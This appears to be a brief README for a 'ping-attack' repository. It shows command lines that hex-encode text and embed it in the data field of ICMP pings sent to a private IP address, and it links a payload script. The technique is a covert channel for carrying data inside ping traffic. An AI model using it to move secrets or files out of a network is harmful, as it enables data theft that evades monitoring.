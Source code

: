 # ping-attack

Basic Commands:<br>

#This will take the text "test" and convert to hex:<br>
```echo "test" | xxd -p```

#output:<br>
746573740a

#This will ping the ip address and add the hex of "test" into the data field<br>
```ping -c 1 192.168.1.5 -p 746573740a```


or use the oneline script of:<br>
```ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)```

or use the scripts ping_payload1.sh located at:<br>
https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh<br>
just pass the ip address and text
